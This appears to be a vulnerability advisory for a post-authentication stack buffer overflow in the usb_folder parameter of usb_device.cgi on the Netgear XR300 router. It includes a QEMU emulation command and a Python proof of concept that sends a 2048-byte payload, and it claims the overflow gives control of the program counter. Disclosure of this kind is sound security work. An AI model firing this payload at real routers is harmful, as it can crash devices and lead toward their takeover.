




## buffer overflow in usb_folder of usb_device.cgi


**Affected Product**: Netgear XR300 Router

**Affected Firmware Versions**:  XR300-V1.0.3.38_10.3.30 

**Official Firmware Resources** :(https://support.netgear.cn/doucument/detail.asp?id=2466)

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: 

------

### **Vulnerability Details**

#### **Description**

A stack-based buffer overflow exists in the HTTPD service through the `usb_device.cgi` endpoint. The vulnerability occurs when processing POST requests containing the `usb_folder` parameter. Specifically:

1. The `sub_B7350` function handles requests to `usb_device.cgi`.
2. User-controlled `usb_folder` input is copied to buffer `v48` using `strcpy` without proper bounds checking.
3. The `v48` buffer is only **2 bytes** in size.
4. The service permits `usb_folder` values up to **0x800 bytes (2048 characters)**, creating an overflow condition 

This vulnerability requires authentication to exploit, making it a post-authentication vulnerability.






#### **QEMU Emulation Setup**

`sudo chroot . ./qemu-arm-static -E LD_PRELOAD="/nvram.so /lib/libdl.so.0"  -g 1234  ./usr/sbin/httpd`


#### 

------

### **Proof of Concept (PoC)**


```
import requests
from requests.auth import HTTPBasicAuth

router_ip = "192.168.107.135"
url = f"http://{router_ip}/usb_device.cgi"
username = "1"
password = "1"
payload = 'A' * 2048

data = {
    "mode": "add_share",
    "usb_folder": payload,
    
}

headers = {
    "User-Agent": "Mozilla/5.0",
    "Content-Type": "application/x-www-form-urlencoded",
}

try:
    response = requests.post(
        url,
        data=data,
        headers=headers,
        auth=HTTPBasicAuth(username, password),

    )

    print(f"HTTP Status: {response.status_code}")
    print("Response Content:")
    print(response.text)

    if "Internal Server Error" in response.text:
        print("Server Error Detected")
    elif response.status_code == 500:
        print("Internal Server Error (500)")
    elif response.status_code == 0:
        print("Connection Reset")

except requests.exceptions.ConnectionError:
    print("Connection Failed - Potential Service Crash")
except requests.exceptions.RequestException as e:
    print(f"Request Error: {str(e)}")
except Exception as e:
    print(f"Unexpected Error: {str(e)}")

```


### Exploitation Results


The PoC demonstrates successful overflow of the `v48` buffer on the stack. As shown in Figure,  the overflow overwrites the return address, granting control of the PC register. This enables arbitrary code execution by crafting a ROP chain or shellcode payload.




